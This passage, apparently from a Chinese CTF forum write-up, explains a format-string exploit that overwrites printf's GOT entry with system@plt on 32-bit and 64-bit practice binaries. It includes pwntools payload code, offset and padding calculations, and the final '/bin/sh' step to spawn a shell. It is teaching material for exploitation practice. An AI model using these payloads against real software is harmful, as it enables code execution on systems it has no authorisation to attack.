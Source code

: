 ```
payload += "%"
payload += str(0x208-0x204)
payload += "c%8$hhn"

```

6. 其实可以直接使用类 Fmtstr，效果一样，将 Payload 替换成下列代码即可

payload = fmtstr_payload(5, {printf_got:system_plt})

7. 之后再 io.sendline('/bin/sh\x00')，即可 getshell

### ★64 位程序

1. 由于 64 位，传参的顺序为 rdi, rsi, rdx, rcx, r8, r9，接下来才是栈，所以偏移量应该是 6 指向栈顶。之后考虑使用 fmtstr 来直接构造获取：

payload = fmtstr_payload(6, {printf_got:system_plt})

但是这个方法会出错，因为在这种情况下，我们的地址如下

```
#注释头
 
printf_got = 0x00601020
system_plt = 0x00400460

```

需要写入地址 printf_got 的首两位是 00，且以 p64 形式发送，所以先发送的是 0x20，0x10，0x60，0x00，0x00....... 而 Read 函数读到 0x00 就会截断，默认这是字符串结束了，所以之后的都无效了。

2. 那么考虑手动方式，将 p64(printf_got) 放在 payload 的末尾，这样就只有最后才会读到 0x00，其它的有效数据都能读入。

3. 使用手动方式就需要再次计算偏移量，我们的 payload 构成应该是

payload = ”%”+str(system_plt)+”c%8$lln” + p64(printf_got)

这里偏移量为 8 是因为经过调试发现我们的输入从栈顶开始计算，也就是从栈顶开始，一共输入了

1(%) + 7(0x400460 转换成十进制为 4195424，也就是 7 个字节) + 7(“c%8$lln”) + 8(p64_printf_got)=23 个字节。

经过计算我们发现，p64 前面的字节数为 15 个字节，不足 8 的倍数，这样会导致 printf_got 的最后一个字节 20 被截断至偏移量为 7 的位置，从而使得偏移量为 8 的位置只有 6010，导致出错。所以我们需要填充一个字节进去，让它不会被截断。

![](https://bbs.pediy.com/upload/attach/202108/904686_R3TRQC6M99P9AKP.jpg)

```
#注释头
 
payload = ”a%” + str(system_plt-1)+”c%8$lln” + p64(printf_got)

```

加入一个字节 a 就可以使得在参数偏移量为 6 和 7 的位置中不会截断 0x601020。同时加入字节 a 就要使 system_plt-1 来满足最终打印的字符个数为 0x00400460，从而才能成功将 0x00400460(system_plt) 写入到 0x00601020(printf_got)

5. 完成 payload 之后，再次循环进入，输入 io.sendline('/bin/sh\x00') 后 interactive() 即可 getshell

参考资料：

